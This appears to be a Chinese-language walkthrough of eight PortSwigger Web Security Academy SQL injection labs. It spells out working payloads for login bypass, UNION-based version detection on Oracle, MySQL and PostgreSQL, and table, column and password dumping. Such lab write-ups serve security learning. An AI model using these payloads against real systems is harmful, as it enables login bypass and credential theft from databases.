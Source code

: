 # SQL injection

## 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> 最基础的SQL注入，由于题目中已经告诉了语句格式，即告诉了`category`字段为单引号闭合，实际测试中可能需要花费一定时间去判断*脆弱字段*和*闭合形式*。

随便选择一个类别，然后修改类别名为不存在的名称，例如`abc`，然后进行单引号闭合，加入OR语句`or 1=1`，最后进行注释`--+`以使SQL语句成立，最后请求URL即为`https://xxxxxxx.web-security-academy.net/filter?category=abc'%20or%201%3D1--+`。

## 2: SQL injection vulnerability allowing login bypass

> 也是基础的SQL注入，题目要求登录`administrator`用户，那么用户名输入`administrator' --+`即可。实际中，可能需要测试一下闭合形式，我最开始是没有单引号的，发现失败了，就结合上一题（信息收集）测试一下单引号即可。

点击`My Account`进入登陆界面，用户名输入`administrator' --+`，密码任意输入（防止有检测空密码的JavaScript代码阻止登录），最后请求包数据为`csrf=xxxxxxx&username=administrator%27%20--%2B&password=administrator`

## 3: SQL injection attack, querying the database type and version on Oracle

> 基本的思路就是`union`一个查询数据库版本的语句，然后让其回显。

由于我对Oracle的语句并不熟悉，所以我参考了[一些资料](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

通过`' and 1=1--+`和`' and 1=2--+`确定是单引号闭合之后，就可以开始判断当前表的列数。

第一步需要判断当前表的列数（因为这关乎我们之后select语句返回数据的数量），可以通过`order by`语句进行测试，会发现`order by 3`时会报错，`order by 2`时正常，那么可以判断当前表有两列，即`https://xxxxxxx.web-security-academy.net/filter?category=Gifts%27+order+by+2--+`。

接下来就可以开始使用`union`语句确定回显。在MySQL中，我们可以通过`select 1,2`的语句进行测试回显，但在Oracle中，必须要包含`from table`，所以我们使用`select '1','2' from dual`来进行测试（需要使用字符串而非数字，具体原因我不太清楚，之后如果系统了解Oracle应该会涉及）。*dual是Oracle的一个实际存在的表，常用在没有目标表的select语句中*。请求URL为`https://xxxxxxx.web-security-academy.net/filter?category=Gifts%27+union+select+%271%27,%272%27+from+dual--+`，我们会发现两部分都会回显。

通过资料可以发现，Oracle中查询版本的语句为`SELECT banner FROM v$version`和`SELECT version FROM v$instance
`，我们以前者为例子，直接修改之前的select语句即可，例如`https://xxxxxxx.web-security-academy.net/filter?category=Gifts%27+union+select+null,banner+from+v$version--+`，这里的`null`可以换成`%271%27`或直接`banner`。

## 4: SQL injection attack, querying the database type and version on MySQL and Microsoft

> 与上一个一样，不过就是后端不一样，换一些语法就可以了。

`https://xxxxxxx.web-security-academy.net/filter?category=Accessories%27+union+select+1,@@version--+`

你也可以使用`version()`来替代`@@version`，这是我在下一个Lab中发现的，`version()`适用于所有非Oracle的数据库，但`@@version`仅适用于MySQL和Microsoft。

## 5: SQL injection attack, listing the database contents on non-Oracle databases

> 可以先通过注入查询数据库得到用户名密码，最后再登录。

可以通过`https://xxxxxxx.web-security-academy.net/filter?category=Gifts%27+union+select+%271%27,version()--+`来进行初步测试，确定后端为`PostgreSQL`。

同样使用[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)中的Payload，我们可以通过`https://xxxxxxx.web-security-academy.net/filter?category=ABC%27+union+select+%271%27,table_name+from+information_schema.tables--+`查看数据库表名，使用`ABC`这个不存在的category是为了去掉原本正常的数据。

搜索关键字`user`，挑选一个可能性较大的表，例如`pg_user`，通过`https://xxxxxxx.web-security-academy.net/filter?category=ABC%27+union+select+%271%27,column_name+from+information_schema.columns+where+table_name=%27pg_user%27--+`查询其列名，会发现有`usename`和`passwd`两列。

最后通过`https://xxxxxxx.web-security-academy.net/filter?category=ABC%27+union+select+usename,passwd+from+pg_user--+`，但是发现这里只有两个用户`peter`和`postgres`，所以我们表找错了。最后再查看一次所有表，觉得`users_alyjev`可能也较大，进行查询后得到用户名密码，登录即可。

## 6: SQL injection attack, listing the database contents on Oracle

> 思路与上一个Lab一样，不过后端是Oracle。

通过`https://xxxxxxx.web-security-academy.net/filter?category=ABC%27+union+select+%271%27,table_name+from+all_tables--+`查询所有表名，我们先选择`USERS_VSCHVE`这个表进行查询`https://xxxxxxx.web-security-academy.net/filter?category=ABC%27+union+select+%271%27,column_name+from+all_tab_columns+where+table_name=%27USERS_VSCHVE%27--+`，然后查询用户名密码`https://xxxxxxx.web-security-academy.net/filter?category=ABC%27+union+select+USERNAME_LBWZOB,PASSWORD_JXBWPH+from+USERS_VSCHVE--+`，最后登录即可。

## 7: SQL injection UNION attack, determining the number of columns returned by the query

> 关键点在于通过`order by`判断有几列，然后根据题目要求添加一行空数据即可。

`https://xxxxxxx.web-security-academy.net/filter?category=Pets%27%20order%20by%203--+`

`https://xxxxxxx.web-security-academy.net/filter?category=Pets%27union+select+null,null,null--+`

## 8: SQL injection UNION attack, finding a column containing text

> 确定回显点为第二列之后，就可以在回显处完成输出`7ix1eZ`。

`https://xxxxxxx.web-security-academy.net/filter?category=ABC%27+union+select+%271%27,%277ix1eZ%27,%273%27--+`
